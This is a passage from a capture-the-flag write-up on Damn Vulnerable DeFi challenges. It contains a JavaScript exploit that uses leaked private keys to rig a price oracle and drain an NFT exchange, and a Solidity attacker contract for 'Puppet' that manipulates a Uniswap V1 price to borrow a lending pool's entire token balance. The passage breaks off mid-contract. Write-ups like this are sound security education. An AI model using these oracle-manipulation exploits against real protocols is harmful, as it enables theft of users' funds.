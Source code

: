 ```js
    // 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48

    const signer0 = new ethers.Wallet(privateKey0, ethers.provider);
    const signer1 = new ethers.Wallet(privateKey1, ethers.provider);

    // Change price to 1 wei.
    await oracle.connect(signer0).postPrice('DVNFT', 1);
    await oracle.connect(signer1).postPrice('DVNFT', 1);

    // Buy NFT.
    await exchange.connect(player).buyOne({value: 1});

    // Change price to exchange balance (to drain all eth).
    const exchangeBalance = ethers.provider.getBalance(exchange.address);
    await oracle.connect(signer0).postPrice('DVNFT', exchangeBalance);
    await oracle.connect(signer1).postPrice('DVNFT', exchangeBalance);

    // Sell NFT.
    await nftToken.connect(player).approve(exchange.address, 0);
    await exchange.connect(player).sellOne(0);

    // Change price back to initial value.
    await oracle.connect(signer0).postPrice('DVNFT', EXCHANGE_INITIAL_ETH_BALANCE);
    await oracle.connect(signer1).postPrice('DVNFT', EXCHANGE_INITIAL_ETH_BALANCE);
});

```

### 8. Puppet

This challenge consists of two parts: a lending pool and a Uniswap V1 exchange. The lending protocol relies on the most recent Uniswap price as an oracle to determine the necessary collateral amount. It's important to note that Uniswap has limited liquidity, with only 10 ETH and 10 DVT tokens in its pool. This means we can influence Uniswap's price by exchanging a large amount of DVT for ETH. This action will significantly reduce the DVT/ETH price, ultimately enabling us to deplete the lending pool using a relatively small amount of ETH.

To figure out how to swap tokens for ETH, we can refer to the [Uniswap V1 documentation](https://docs.uniswap.org/contracts/v1/reference/interfaces).

```sol
contract PuppetAttacker {

    IERC20 token;
    PuppetPool pool;
    IUniswapExchange exchange;

    constructor(address _tokenAddr, address _poolAddr, address _exchangeAddr) payable {
        token = IERC20(_tokenAddr);
        pool = PuppetPool(_poolAddr);
        exchange = IUniswapExchange(_exchangeAddr);
    }

    function attack(address user) public payable {
        // Swap all users token for eth to severely decrease price of DVT.
        uint256 playerInitialTokenAmount = token.balanceOf(address(this));
        token.approve(address(exchange), playerInitialTokenAmount);
        exchange.tokenToEthSwapInput(playerInitialTokenAmount, 1, block.timestamp + 1);

        // Borrow all DVT from pool.
        uint256 poolInitialTokenAmount = token.balanceOf(address(pool));
        pool.borrow{value: address(this).balance}(poolInitialTokenAmount, user);

        // Send back remaining eth.
```